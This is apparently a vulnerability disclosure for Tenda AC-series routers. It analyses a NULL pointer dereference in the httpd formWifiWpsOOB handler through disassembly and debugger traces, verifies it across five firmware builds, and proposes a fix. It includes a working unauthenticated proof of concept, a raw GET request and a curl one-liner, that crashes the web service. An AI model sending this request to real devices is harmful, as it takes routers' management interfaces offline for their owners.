





# Tenda AC series formWifiWpsOOB NULL pointer dereference

## Overview

| Firmware Name | Firmware Version | Download Link |
| --- | --- | --- |
| AC6 V1.0 | V15.03.05.19 | https://www.tenda.com.cn/download/detail-2681.html |
| AC9 V1.0 | V15.03.05.19 (6318) | https://www.tenda.com.cn/download/detail-2682.html |
| AC15 V1.0 | V15.03.05.19 | https://www.tenda.com.cn/download/detail-2680.html |
| AC18 | V15.03.05.19 (6318) | https://www.tenda.com.cn/download/detail-2683.html |
| AC10U V1.0 | V15.03.06.48 | https://www.tendacn.com/download/detail-3170.html |

CWE-476. CVSS 3.1: 7.5 `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H`.

## Vulnerability details

### 1. Trigger location

The vulnerability is a call to `atoi` in the `formWifiWpsOOB` function of `bin/httpd`, at
offset `0x9b720` in the AC9 V15.03.05.19 build. The function reads the request parameter
`index` with a NULL default and passes the result to `atoi` without checking it.



In the source this is:

```c
index = websGetVar(wp, "index", NULL);
...
atoi(index);
printf(...);
...
if (index == NULL) { ... }
```



`websGetVar` returns the default (`NULL`) when the parameter is not present, so the check
that follows the call is reached too late. Disassembly of the region:

```
09b6bc  mov  r2, #0            ; default = NULL
09b6c0  bl   0x9e0b8           ; websGetVar(wp, "index", NULL)
09b6c4  str  r0, [fp, #-16]
...
09b71c  ldr  r0, [fp, #-16]
09b720  bl   atoi@plt          ; no NULL check before this
...
09b74c  cmp  r3, #0            ; the check, 44 bytes later
```

The crash is inside `strtol`, which `atoi` calls:

```
Program received signal SIGSEGV, Segmentation fault.
pc = 0x3fdedafc    r0 = 0x0    r6 = 0x0

=> 0x3fdedafc:  ldrb  r3, [r6]      ; read from address 0
```

The faulting address is `0x0`, and the caller is confirmed by the return address `0x9b724`
present on the guest stack, which is the instruction right after `bl atoi`.

### 2. Conditions to satisfy

- The parameter `index` must be absent or empty. Any non-empty value is parsed normally.
- A cookie named `password` must be present. Its value is not validated, so any value works.
- No other parameter is required, and the request body may be empty.

## POC

A single request is enough. No credentials are needed:

```
GET /goform/WifiWpsOOB HTTP/1.1
Host: 192.168.0.1
Cookie: password=x
```

The same in one line:

```
curl -s "http://192.168.0.1/goform/WifiWpsOOB" -H "Cookie: password=x"
```

The service closes the connection without a response and terminates. The web interface stays
unreachable until the device is restarted.

`poc.sh` and `poc.py` in this directory send a baseline request followed by the trigger and
report the result.

## Vulnerability verification

Each device was started from the vendor firmware and driven through three steps: request a
cookie, send a well-formed request, then send the request without `index`.

| Firmware | `index` present | `index` absent |
| --- | --- | --- |
| AC6 V1.0 V15.03.05.19 | 200 OK | no response, process gone |
| AC9 V1.0 V15.03.05.19 (6318) | 200 OK | no response, process gone |
| AC15 V1.0 V15.03.05.19 | 200 OK | no response, process gone |
| AC18 V15.03.05.19 (6318) | 200 OK | no response, process gone |
| AC10U V1.0 V15.03.06.48 | 200 OK | no response, process gone |



Under the debugger, with a breakpoint on the `atoi` call:



Testing was done in QEMU user mode (`qemu-arm`, `qemu-mipsel-static`) on the vendor's
unmodified root filesystems; the debugger was `gdb-multiarch` attached through the QEMU gdb
stub. `evidence/` holds the raw captures and `gdb-session.txt` the debugger session.

## Relationship to the previously reported buffer overflow

The `index` parameter of the same function is already covered by several CVE IDs, all of them
stack buffer overflows. The function passes `index` to `sprintf` at two sites, both writing
into the same stack buffer at `[fp-28]`:

```
0x9b87c   sprintf(buf, "%s;%s", index, "0")
0x9b928   sprintf(buf, "%s;%s", index, "1")
```

Neither bounds the length. Measured on the AC9 build, an `index` value of 20 bytes is
handled normally and 22 bytes crashes the process, so the boundary lies between the two.
This defect needs no value at all, so the two triggers cannot both apply to one request.

| | Overflow (existing CVEs) | This issue |
| --- | --- | --- |
| CWE | CWE-121 | CWE-476 |
| Input | `index`, 22 bytes or longer | `index` absent or empty |
| Crash | in httpd, on function return | in libc `strtol`, immediately |

In the AC9 build there is one site where a getter with a NULL default is used without a
check, and it is this one. The neighbouring handler `formWifiWpsStart` reads a parameter
with the same name and checks it first, at `0x9a3e4`, ahead of its own `atoi` at `0x9a414`:



`formWifiStatus` (function at `0x9991c`, getter at `0x99f28`) follows the same order.

## Fix

```c
index = websGetVar(wp, "index", NULL);
if (index == NULL) {
    return;
}
idx = atoi(index);
```

or give the parameter a non-NULL default:

```c
index = websGetVar(wp, "index", "");
```

## Discoverer

The vulnerability was discovered by Xincheng Xu (徐新程) and Xingchi Chen (陈星池).
